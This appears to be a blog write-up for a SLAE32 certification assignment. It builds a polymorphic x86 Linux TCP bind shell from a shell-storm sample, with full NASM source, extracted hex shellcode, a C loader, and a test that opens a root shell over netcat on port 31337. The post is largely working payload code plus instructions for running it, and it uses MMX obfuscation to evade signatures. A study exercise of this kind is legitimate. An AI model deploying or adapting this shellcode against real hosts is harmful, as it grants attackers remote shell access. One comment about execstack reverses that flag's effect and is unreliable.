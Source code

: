 ```yaml
---
title: SLAE32 Assignment 6.1 - Polymorphic MMX Bind Shell
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - Bind
  - Shell
  - polymorphic
  - MMX
  - Assembly
  - SLAE
  - Linux
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)

## Overview
For the sixth assignment in the SLAE32 Exam, we needed to create 3 polymorphic shellcodes; from existing shellcodes at shell-storm.org.   
_What is Polymorphic Shellcode?_   
Polymorphic shellcode means that it uses different assembly instructions to deliver the same payload.    
For example, all of the below instructions will result in the same action.

```nasm
mov eax, 0x00000000      ; Clears the EAX Register
xor eax, eax             ; Clears the EAX Register
sub eax, eax             ; Clears the EAX Register
```

The first shellcode I modified was `tcpbindshell (108 bytes)`, created by Russell Willis.  
+ This shellcode can be found at `http://shell-storm.org/shellcode/files/shellcode-847.php`.  

Our assignment required that our polymorphic version of the shellcode to not exceed 150% of the original value.   
+ The original shellcode length is 108 bytes. 
+ The final length of this polymorphic shellcode is 144 bytes.    

## Polymorphic Shellcode
+ The code I added/modified is indented with one space.

```nasm
global _start
_start:
 xor	ecx,ecx   ; Makes the ECX Register 0
 mul	ecx       ; ECX*EAX. Result is stored in EDX:EAX. 
                  ;  This clears the EDX and EAX.
 mov ebx, eax     ; sets the EBX register to 0
 push byte 0x66
 pop edi          ; save this for the other functions
 mov eax, edi	  ; eax is now 0x66 which is the socketcall SYScal
 inc ebx          ; EBX = 1; needed to create the socket()
 push edx
push   0x6
 push ebx         ; push 0x1 to the stack 
push   0x2
mov    ecx,esp
int    0x80       ; System Call
 xchg esi,eax     ; Save the output of the syscal to the ESI register

 mov eax, edi     ; EAX = 0x66 used for socketcall SYSCAL
 inc ebx          ; EBX = 0x2
push   edx
push word 0x697a  ; port TCP 
push   bx
mov    ecx,esp
push   0x10
push   ecx
push   esi
mov    ecx,esp
int    0x80       ; System Call

 mov eax, edi     ; EAX = 0x66 used for socketcall SYSCAL
 inc ebx
 inc ebx          ; EBX = 0x4
push   0x1
push   esi
mov    ecx,esp
int    0x80       ; System Call
 mov eax, edi     ; EAX = 0x66 used for socketcall SYSCAL
 inc ebx
push   edx
push   edx
push   esi
mov    ecx,esp
int    0x80       ; System Call

; setup dup2 loop
mov    ebx,eax
xor    ecx,ecx
mov    cl,0x3

; dup2
dup2Loop:
	dec ecx
mov    al,0x3f
int    0x80       ; System Call
jne    dup2Loop

push   edx
 mov edx, 0xffffffff     ; used to XOR the MM0 Register to result in "//bin/sh"
 mov eax, 0x978cd091     ; "n/sh" XOR'd with 0xffffffff
 movd mm0, eax
 psllq mm0, 32           ; shift the mm0 register left by 4 bytes
 mov ebx, 0x969dd0d0     ; "//bi" XOR'd with 0xffffffff
 movd mm1, ebx
 paddb mm0, mm1          ; now mm0 hold the 8 byte XOR'd "//bin/sh"
 movd mm1, edx           ; mm1 is now 0xffffffff
 psllq mm1, 32           ; mm1 is now 0xffffffff00000000
 movd mm2, edx           ; mm2 us biw 0xffffffff
 paddb mm1, mm2          ; mm1 is now 0xffffffffffffffff
 pxor mm0, mm1           ; XOR's mm0 with mm1 and saves the results in mm0
 sub esp, 8              ; Decrement the stack 8 bytes
 movq qword [esp], mm0   ; push "//bin/sh" from mm0 to the top of the stack

xor    eax,eax
mov    ebx,esp
push   eax
push   ebx
mov    ecx,esp
push   eax
mov    edx,esp
mov    al,0xb
int    0x80       ; System Call

```  

+ To push the filename string `//bin/sh` onto the stack, I used the MMX registers.   

### Compiling the Shellcode

```console
root# nasm -f elf32 mmxTcpBindShell.nasm -o mmxTcpBindShell.o
root# ld mmxTcpBindShell.o -o mmxTcpBindShell
```

### Getting the Hex of the Shellcode

```console
root# objdump -d tcpBindShell  | grep '[0-9a-f]:' | grep -v 'file' | \
cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | \
sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02"
"\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a"
"\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80"
"\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0"
"\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e"
"\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e"
"\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f"
"\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80"
``` 

### Injecting the Shellcode in a Host Program
+ I loaded it into our shellcode testing program to ensure it still worked when injected into a host program.  

```c
// Filename: shellcode.c
// Author:   boku
#include<stdio.h>
#include<string.h>
unsigned char code[] = \
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02"
"\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a"
"\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80"
"\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0"
"\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e"
"\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e"
"\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f"
"\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";
main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
+ I then compiled the C program.  

#### Compiling the Host Program
```console
gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```
+ we use the feature `no-stack-protector` to disable canary stack protections that are automattically added when using the gcc compiler.
+ The option `execstack` disables the Data Execution Protection (DEP) mechanism automatically added when compiling with gcc. 
  - This makes the stack non-executable.
  - The stack would be only read and write if we didn't disable this.

### Testing the Polymorphic Shellcode
#### Window 1
```console
root# ./shellcode
Shellcode Length:  144
```

#### Window 2
```console
root# netstat -tnalp | grep shellcode
tcp        0      0 0.0.0.0:31337           0.0.0.0:*               LISTEN      19649/shellcode
root# nc 127.0.0.1 31337
whoami
root
```
+ Awesome! Our version of the shellcode works as intended.
+ Having no `root#` or `user$` is typical of bind shells.




